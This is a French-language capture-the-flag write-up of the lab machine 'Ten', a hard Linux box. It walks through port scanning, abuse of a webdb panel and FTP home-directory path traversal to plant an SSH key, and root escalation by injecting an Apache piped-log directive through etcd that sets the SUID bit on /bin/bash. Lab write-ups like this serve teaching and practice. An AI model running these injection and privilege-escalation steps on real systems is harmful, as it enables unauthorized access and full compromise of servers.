Ten est une machine Linux de difficulté élevée qui simule un environnement d’hébergement mutualisé mal configuré. Je commence par explorer un portail de connexion public qui permet de créer des comptes FTP, puis j’abuse d’une intégration bancale entre MySQL et FTP pour prendre le contrôle d’un vrai compte utilisateur local sur la machine. Une fois à l’intérieur, j’obtiens les droits administrateur en corrompant la configuration Apache, qui est rechargée automatiquement via etcd, un système de stockage de configuration distribué.

# Énumération 
## Scan TCP

Je commence l'énumération avec un scan TCP complet avec les options suivantes :
- `--` : pour passer tous les ports ouverts à nmap.
- `-sVC` : pour afficher la version des services et exécuter les scripts nmap par défaut sur les ports ouverts.
```js
rustscan -a 10.129.234.158 -- -sVC
```

Il y a 3 ports ouverts :
- 21 pour le FTP
- 22 pour le SSH
- 80 pour le HTTP
```js
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 Pure-FTPd
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 13985452d37bae326a336f18a35a2766 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKLU/8aw5xo8FIbpa/JIheQHXxnAhCw2YaP3rBVjqWAENcjt4CuZ05HC/bR/3XbuaJ9wyMbh4ZVRdmuzBIYFdf4=
|   256 2ed58625c16b0e51a22add8244a60063 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAd4iRGpdrg48SaN9tqAL93IbIZT8JVFw3nr+kBAlgXK
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-methods:
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Page moved.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Site Web - TCP 80

Il s'agit d'un site d'upload de fichiers par FTP.


Le bouton Attribution nous redirige vers cette page.



Le bouton Sign Up nous redirige vers un page avec une fonctionnalité de recherche d'identifiants à partir d'un nom de domaine fournit.



Je teste alors la fonctionnalité ne mettant `test.local`. J'ai alors l'erreur disant que le nom de domaine ne peut contenir que des caractères alphanumériques (a-z, 0-9).



Dans le code source de la page, je vois qu'il existe un filtre avec un expression régulière. Lorsque le nom de domaine est correct, un requête **POST** vers le `/get-credentials-please-do-not-spam-this-thanks.php` est effectuée pour récupérer et afficher les identifiants.



Cette fois ci alors je met juste **test** et quelques secondes plus tard j'ai la réponse du serveur qui me donne les identifiants FTP.
```
Your personal account is ready to be used:

Username: ten-e0002262
Password: 7b759efd
Personal Domain: test.ten.vl

You can use the provided credentials to upload your pages
via ftp://ten.vl.
```



J'ajoute alors le nom de domaine dans le fichier `/etc/hosts`.
```js
echo "10.129.234.158 ten.vl" >> /etc/hosts
```

## FTP - TCP 21


```
Username: ten-e0002262
Password: 7b759efd
```



# Shell en tant que tyrell
## Énumération de sous domaines

Je trouve le sous domaine `webdb.ten.vl`.
```js
ffuf -c -u http://ten.vl -H "Host: FUZZ.ten.vl" -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -fs 205
```



## Connexion à webdb

Il s'agit de [webdb](https://docs.webdb.app/) un outil libre et open-source qui permet de gérer visuellement différents types de bases de données (MySQL, PostgreSQL, MongoDB,...) via une interface web.



Je clique alors sur le bouton `Guess Credentials`.



J'ai alors les identifiants `user:pa55w0rd` qui s'affichent.



Et je suis immédiatement connecté.



En me rendant dans l'onglet `pureftpd`, j'ai les identifiants de l'utilisateurs créé sur le site web qui s'affichent.



En cliquant sur le bouton de modification de l'utilisateur, je vois que son répertoire personnel est le `/srv/ten-a4ff9dd3/./`. Hors comme vu précédemment il est vide. 



Après une tentative de modification du répertoire, je vois qu'il doit commencé par `/srv`, qui doit sûrement être la racine du serveur de fichiers.



Je modifie alors pour la valeur `/srv`.



Je me reconnecte et cette fois j'arrive dans le répertoire `/srv` qui contient le répertoire personnel de l'utilisateur `ten-a4ff9dd3`.



## Path traversal

La valeur `/srv/../` est valide ce qui confirme que le paramètre **`dir`** est vulnérable à du path traversal.



## Accès au système de fichiers

Je me reconnecte encore une fois et j'atterris a la racine du serveur.



Il existe un utilisateur nommé `tyrell`.



## Modification de l'utilisateur

J'ai bien accès au système de fichiers mais je n'ai pas de droits suffisants de lecture ou d'écriture. Ce qui est intéressant c'est que je peux modifier les attributs de mon utilisateur. En essayant de modifier les valeur du **UID** ainsi que le **GID** par **0** (celles du root), j'ai une erreur indiquant que la valeur de ces paramètres ne peux être inférieure à **999**.



Pas grave, celle de `tyrell` est de 1000.



Je change alors ces valeurs sur mon utilisateur.



Je me reconnecte encore une fois et là je peux finalement accéder au répertoire personnel de `tyrell`.



Je n'ai pas le droit d'accéder aux répertoires cachés depuis le FTP.




Pas grave, il me suffit de modifier de modifier la valeur de la variable `dir` par `/srv/../home/tyrell/.ssh/`.



## Connexion SSH

Je me reconnecte et j'ai accès au répertoire `/home/tyrell/.ssh`.



Je génère alors une paire de clés SSH et je renomme la clé publique en `authorized_keys`.
```js
ssh-keygen -t ed25519 -f keyname -N ""
mv keyname.pub authorized_keys
```



J'uploade le fichier `authorized_keys`.



Puis je me connecte en SSH avec la clé privée.
```js
chmod 600 keyname
ssh -i keyname tyrell@ten.vl
```




# Shell en tant que root
## Énumération 

Dans le dossier **/var/www/html**, je vois le contenu du fichier `get-credentials-please-do-not-spam-this-thanks.php` script d'inscription créant automatiquement des comptes FTP avec domaine personnel : génère identifiants aléatoires, stocke le mot de passe chiffré en base MySQL et enregistre la configuration du domaine dans **`etcd`** pour le routage web.

```php
<?php
if ( !isset($_POST['domain']) ) {
  header('Location: /signup.php');
}
if(!preg_match('/^[0-9a-z]+$/', $_POST['domain'])) {
  echo('<font color=red>Domain name can only contain alphanumeric characters.</font>');
} else {
  $username = "ten-" . substr(hash("md5",rand()),0,8);
  $password = substr(hash("md5",rand()),0,8);
  $password_crypt = crypt($password,'$1$OWNhNDE');
  sleep(10); // This is only here so that you do not create too many users :)
  $mysqli = new mysqli("127.0.0.1", "user", "pa55w0rd", "pureftpd");
  $stmt = $mysqli->prepare("INSERT INTO users VALUES ( NULL, ?, ?, ?, ?, ? );");
  $uid = random_int(2000,65535);
  $dir = "/srv/$username/./";
  $stmt->bind_param('ssiis',$username,$password_crypt,$uid,$uid,$dir);
  $stmt->execute();
  system("ETCDCTL_API=3 /usr/bin/etcdctl put /customers/$username/url " . $_POST['domain']);
  echo('<p class="lead">Your personal account is ready to be used:<br><br>Username: <b>'.$username.'</b><br>Password: <b>'.$password.'</b><br>Personal Domain: <b>'.$_POST['domain'].'.ten.vl</b><br><br>You can use the provided credentials to upload your pages<br> via ftp://ten.vl.<br><br><font size="-1">It may take up to one minute for all backend processes to properly identify you as well as your personal virtual host to be available.</font></p>');
}
```

Ayant démarrer `pspy` à l'avance, je vois qu'il exécute la commande `/usr/bin/etcdctl put /customers/ten-ac2fc373/url z3rodol` après que j'ai mis le domaine **z3rodol** sur la page `signup.php`.



Il exécute donc `/usr/bin/etcdct` qui est l'utilitaire de commande de `etcd` ainsi que `/usr/local/sbin/remco` qui est un outil de gestion de configurations. Il existe une [documentation](https://etcd.io/docs/v3.4/dev-guide/interacting_v3/) pour interagir avec `etcdct`.
Les fichiers de configuration de `remco` se trouvent dans le répertoire `/etc/remco`.
```js
find / -iname remco 2>/dev/null
cd /etc/remco
```



Voici le contenu du template lors de la création d'un nouveau sous domaine.
```js
tyrell@ten:/etc/remco$ cat templates/010-customers.conf.tmpl

  {% if exists(printf("/customers/%s/url", customer)) %}

<VirtualHost *:80>
        ServerName {{ getv(printf("/customers/%s/url",customer)) }}.ten.vl
        DocumentRoot /srv/{{ customer }}/
</VirtualHost>

  

```

Le fichier `/etc/apache2/sites-enabled/010-customers.conf` quant à lui contient tous les domaines créés.



## Injection de commande

Donc en résumé lorsque je mets un domaine valide sur le site web, la commande `ETCDCTL_API=3 /usr/bin/etcdctl put /customers/$username/url 'domain'` est exécutée sur le serveur puis enregistrée dans le fichier de configuration `/etc/apache2/sites-enabled/010-customers.conf`.
Je teste alors la commande sur la machine. Je mets comme valeur de test un commentaire pour ne pas faire crasher le serveur Apache.
```js
ETCDCTL_API=3 /usr/bin/etcdctl put /customers/ten-999asdf9/url 'pwnming
	# Test z3rodol'
```



Après consultation du [writeup de 0xdf](https://0xdf.gitlab.io/2025/07/24/htb-ten.html#shell), j'ai vu qu'il est possible d'abuser des [Pipe Logs](https://httpd.apache.org/docs/2.4/logs.html#piped) dans ce cas pour avoir de l'exécution de commandes. Je vais donc en abuser avec la commande suivante :
```js
ETCDCTL_API=3 /usr/bin/etcdctl put /customers/ten-999asdf9/url 'pwnme.ten.vl
	CustomLog "|/usr/bin/chmod 4777 /bin/bash" common
	#'
```



J'exécute alors la commande suivante et j'obtiens un shell en tant que root.
```js
/bin/bash -p
```



Merci d'avoir lu jusqu'ici !!!


